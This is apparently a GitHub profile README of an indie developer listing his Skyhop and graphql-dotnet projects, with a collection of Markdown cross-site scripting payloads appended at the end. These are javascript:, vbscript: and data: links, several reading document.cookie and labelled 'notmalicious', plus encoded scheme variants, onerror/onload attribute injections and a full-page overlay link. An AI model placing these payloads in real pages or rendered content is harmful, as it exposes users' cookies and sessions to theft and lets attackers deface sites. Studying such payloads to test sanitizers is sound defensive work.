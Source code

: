 Hey there 👋

My name is Corstian, and I'm an indie software developer, working on the development of [Skyhop](https://skyhop.org), as well as the occasional consultancy job.

**Interesting work:**

- [Skyhop.Mail](https://github.com/skyhop/mail) - Enforce a strong boundary between the view and model, making transactional mails easier
- [FlightAnalysis](https://github.com/skyhop/flightanalysis) - Extract flight metadata from arbitrary position updates
- [Boerman.GraphQL.Contrib](https://github.com/corstian/Boerman.GraphQL.Contrib) - Some helpers making your life using graphql-dotnet easier
- [graphql-dataloader-connections-demo](https://github.com/corstian/graphql-dataloader-connections-demo) - An example showing how to use dataloaders and connections using graphql-dotnet.
- [gql-dotnet-presentation](https://github.com/corstian/gql-dotnet-presentation) - The presentation and related resoures I have given about graphql-dotnet.

**Where to find me:**

- [corstianboerman.com](https://corstianboerman.com) - This is my blog where I write things. Mostly about tech, sometimes about mental health.
- [@CorstianBoerman](https://twitter.com) - Follow me on Twitter


[citelol]: (javascript:prompt(document.cookie))

[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)

[test](javascript://%0d%0aprompt(1))

[test](javascript://%0d%0aprompt(1);com)

[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)

[notmalicious](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)

[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[clickme](vbscript:alert(document.domain))

[text](http://danlec.com " [@danlec](/danlec) ")

[a](javascript:this;alert(1))

[a](javascript:this;alert(1&#41;)

[a](javascript&#58this;alert(1&#41;)

[a](Javas&#99;ript:alert(1&#41;)

[a](Javas%26%2399;ript:alert(1&#41;)

[a](javascript:alert&#65534;(1&#41;)

[a](javascript:confirm(1)

[a](javascript://www.google.com%0Aprompt(1))

[a](javascript://%0d%0aconfirm(1);com)

[a](javascript:window.onerror=confirm;throw%201)

[a](javascript:alert(document.domain&#41;)

[a](javascript://www.google.com%0Aalert(1))

[a]('javascript:alert("1")')

[a](JaVaScRiPt:alert(1))

![a](https://www.google.com/image.png"onload="alert(1))

![a]("onerror="alert(1))

[XSS](.alert(1);)

[ ](https://a.de?p=[[/data-x=. style=background-color:#000000;z-index:999;width:100%;position:fixed;top:0;left:0;right:0;bottom:0; data-y=.]])

[ ](http://a?p=[[/onclick=alert(0) .]])

[a](javascript:new%20Function`al\ert\`1\``;)
